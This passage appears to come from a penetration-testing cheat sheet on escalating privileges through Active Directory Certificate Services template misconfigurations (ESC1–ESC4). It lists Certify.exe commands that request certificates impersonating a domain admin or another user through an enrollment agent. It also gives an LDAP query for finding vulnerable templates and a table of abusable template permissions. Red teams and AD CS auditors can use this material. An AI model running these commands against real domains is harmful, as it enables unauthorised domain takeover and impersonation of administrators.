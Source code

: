 Request a certificate specifying the `/altname` as a domain admin:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:VulnTemplate /altname:DomAdmin
```



### Modifiable SAN + Any Purpose EKU (ESC2)

Condition: the vulnerable certificate template allows requesters to specify a SAN in the CSR as well as allows Any Purpose EKU (`2.5.29.37.0`).

Find template with this misconfiguration:

```
PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
```

Request a certificate specifying the `/altname` as a domain admin like in **ESC1**.



### Agent Certificate + Enroll on Behalf of Another User (ESC3)

Conditions:

1. A template allows a low-privileged user to use an enrollment agent certificate.
2. Another template allows a low privileged user to use the enrollment agent certificate to request a certificate on behalf of another user, and the template defines an EKU that allows for domain authentication.

1\. Request an enrollment agent certificate:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:Vuln-EnrollAgentTemplate
```

2\. Request a certificate on behalf of another to a template that allow for domain authentication:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:User /onbehalfon:MEGACORP\ITAdmin /enrollcert:enrollmentAgentCert.pfx /enrollcertpw:Passw0rd!
```



### Vulnerable Certificate Template ACEs (ESC4)

* [https://github.com/cfalta/PoshADCS](https://github.com/cfalta/PoshADCS)

| **Right**       | **Description**                                                |
|-----------------|----------------------------------------------------------------|
| `Owner`         | Implicit full control of the object, can edit any properties.  |
| `FullControl`   | Full control of the object, can edit any properties.           |
| `WriteOwner`    | Can modify the owner to an adversary-controlled principal.     |
| `WriteDacl`     | Can modify access control to grant an adversary `FullControl`. |
| `WriteProperty` | Can edit any properties.                                       |
